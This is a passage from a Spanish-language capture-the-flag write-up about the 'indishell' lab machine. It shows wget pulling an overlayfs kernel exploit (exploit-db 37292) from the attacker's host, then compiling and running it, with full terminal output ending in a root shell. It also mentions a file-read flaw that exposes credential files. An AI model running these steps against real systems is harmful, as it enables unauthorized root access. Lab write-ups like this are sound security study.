 Por el kernel y la versión de ubuntu, la máquina debería ser vulnerable al privilege escalation 'overlayfs'. Descargo el exploit de [exploit-db](https://www.exploit-db.com/exploits/37292/), lo subo a la máquina, ejecuto...  ¡ya somos root! máquina completada!

```bash
www-data@indishell:/tmp$ wget http://192.168.56.1:8081/37292.c
wget http://192.168.56.1:8081/37292.c
--2017-06-08 21:40:36--  http://192.168.56.1:8081/37292.c
Connecting to 192.168.56.1:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5123 (5.0K) [text/plain]
Saving to: `37292.c'

100%[======================================>] 5,123       --.-K/s   in 0s      

2017-06-08 21:40:36 (937 MB/s) - `37292.c' saved [5123/5123]

www-data@indishell:/tmp$ ls
ls
37292.c
www-data@indishell:/tmp$ gcc 37292.c -o ofs
gcc 37292.c -o ofs
www-data@indishell:/tmp$ ls
ls
37292.c  ofs
www-data@indishell:/tmp$ ./ofs	
./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data) 
# whoami
whoami
root
```


PD: Como he dicho antes, había una forma mucho más rápida de acabar la máquina, pero hasta que no he leído otro writeup de esta máquina no me he dado cuenta. En el paso en el que testeábamos con test.php podríamos haber visto que también nos permitía cargar archivos del sistema, si hubiese puesto en file /etc/passwd nos lo habría descargado, pues en uno de los archivos de configuración de Apache se encontraban unas credenciales de root que nos permitían haber conectado por ssh.
